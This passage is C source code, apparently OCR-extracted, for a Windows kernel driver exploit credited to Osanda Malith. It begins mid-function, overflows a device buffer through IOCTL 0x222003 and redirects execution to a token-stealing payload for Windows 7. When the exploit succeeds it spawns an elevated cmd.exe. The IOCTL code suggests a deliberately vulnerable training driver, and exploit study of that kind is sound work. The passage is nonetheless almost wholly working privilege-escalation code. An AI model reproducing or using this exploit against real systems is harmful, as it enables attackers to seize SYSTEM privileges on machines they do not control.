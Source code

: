 ```
        GENERIC_READ | GENERIC_WRITE,
        FILE_SHARE_WRITE,
        NULL,
        OPEN_EXISTING,
        FILE_FLAG_OVERLAPPED | FILE_ATTRIBUTE_NORMAL,
        NULL);
    wprintf(L"[*] Author: @OsandaMalithn[*] Website: https://osandamalith.comnn");
    wprintf(L"[+] lpDeviceName: %lsn", lpDeviceName);
    if (hDevice == INVALID_HANDLE_VALUE) {
        wprintf(L"[!] Failed to get a handle to the driver. 0x%xn", GetLastError());
        return -1;
    }
    wprintf(L"[+] Device Handle: 0x%xn", hDevice);
    lpInBuffer = (PUCHAR)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, 0x900);
    if (!lpInBuffer) {
        wprintf(L"[!] Failed to allocated memory. %x", GetLastError());
        return -1;
    }
    RtlFillMemory(lpInBuffer, 0x900, 0x41);
    RtlFillMemory(lpInBuffer + 2076, 0x4, 0x42);
    *(lpInBuffer + 2080) = (DWORD)&amp;TokenStealingPayloadWin7 &amp; 0xFF;
    *(lpInBuffer + 2080 + 1) = ((DWORD)&amp;TokenStealingPayloadWin7 &amp; 0xFF00) &gt;&gt; 8;
    *(lpInBuffer + 2080 + 2) = ((DWORD)&amp;TokenStealingPayloadWin7 &amp; 0xFF0000) &gt;&gt; 0x10;
    *(lpInBuffer + 2080 + 3) = ((DWORD)&amp;TokenStealingPayloadWin7 &amp; 0xFF000000) &gt;&gt; 0x18;
    wprintf(L"[+] Sending IOCTL request with buffer: 0x222003n");
    DeviceIoControl(
        hDevice,
        0x222003, // IOCTL
        (LPVOID)lpInBuffer,
        2084,
        NULL,
        0,
        &amp;lpBytesReturned,
        NULL);
    ZeroMemory(&amp;si, sizeof si);
    si.cb = sizeof si;
    ZeroMemory(&amp;pi, sizeof pi);
    IsUserAnAdmin() ?
    CreateProcess(
        L"C:\Windows\System32\cmd.exe",
        L"/T:17", 
        NULL,
        NULL,
        0,
        CREATE_NEW_CONSOLE,
        NULL,
        NULL,
        (STARTUPINFO *)&amp;si,
        (PROCESS_INFORMATION *)&amp;pi) :
    wprintf(L"[!] Exploit Failed!");
    HeapFree(GetProcessHeap(), 0, (LPVOID)lpInBuffer);
    CloseHandle(hDevice);
    return 0;
}
//EOF
```
